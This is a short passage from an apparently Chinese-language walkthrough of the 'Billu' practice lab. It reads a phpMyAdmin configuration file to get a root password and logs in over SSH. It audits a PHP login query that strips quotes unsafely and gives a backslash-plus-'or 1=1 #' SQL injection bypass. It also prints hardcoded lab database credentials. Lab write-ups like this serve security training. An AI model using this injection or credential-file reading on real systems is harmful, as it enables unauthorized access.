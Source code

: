 试试shadow，发现不行

试试phpmyadmin的配置文件

![image-20240401171122274](PictureFile/【靶场】Billu综合靶场通关.assets/image-20240401171122274.png)

得到root密码

ssh root@192.168.229.128 登录成功



试一试另外一个，包含php代码，进行审计

**index.php**

```php
 $uname=str_replace('\'','',urldecode($_POST['un']));
	$pass=str_replace('\'','',urldecode($_POST['ps']));
	$run='select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'';
	$result = mysqli_query($conn, $run);
```

uname: or 1=1 #

pass:\ 

**c.php**

```php
<?php
#header( 'Z-Powered-By:its chutiyapa xD' );
header('X-Frame-Options: SAMEORIGIN');
header( 'Server:testing only' );
header( 'X-Powered-By:testing only' );
 
ini_set( 'session.cookie_httponly', 1 );
 
$conn = mysqli_connect("127.0.0.1","billu","b0x_billu","ica_lab");
 
// Check connection
if (mysqli_connect_errno())
  {
  echo "connection failed ->  " . mysqli_connect_error();
  }
 
?>
```
